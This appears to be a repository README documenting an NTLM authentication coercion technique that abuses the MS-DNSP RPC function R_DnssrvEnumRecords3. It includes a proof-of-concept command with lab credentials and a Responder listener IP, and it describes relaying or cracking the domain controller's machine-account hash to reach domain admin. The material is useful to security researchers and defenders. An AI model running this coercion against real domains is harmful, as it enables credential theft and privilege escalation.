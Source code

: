 # MS-DNSP - Remote call to R_DnssrvEnumRecords3 (opnum 11)

## Summary

 - **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

 - **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

 - **Protocol version**: 0.0

 - **SMB Named pipe**: `\PIPE\DNSSERVER`

 - **Function name**: [`R_DnssrvEnumRecords3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c)

 - **Function operation number**: `11`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords3(
   [in]                                   handle_t         hBindingHandle,
   [in]                                   DWORD            dwClientVersion,
   [in]                                   DWORD            dwSettingFlags,
   [in, unique, string]                   LPCWSTR          pwszServerName,
   [in, unique, string]                   LPCSTR           pszZone,
   [in, unique, string]                   LPCWSTR          pwszZoneScope,
   [in, unique, string]                   LPCSTR           pszNodeName,
   [in, unique, string]                   LPCSTR           pszStartChild,
   [in]                                   WORD             wRecordType,
   [in]                                   DWORD            fSelectFlag,
   [in, unique, string]                   LPCSTR           pszFilterStart,
   [in, unique, string]                   LPCSTR           pszFilterStop,
   [out]                                  PDWORD           pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]     PBYTE*           ppBuffer
 );
```

## References

 - Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

 - Documentation of function `R_DnssrvEnumRecords3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d7d4a3ac-7995-4d41-9fcf-1826cce95e2c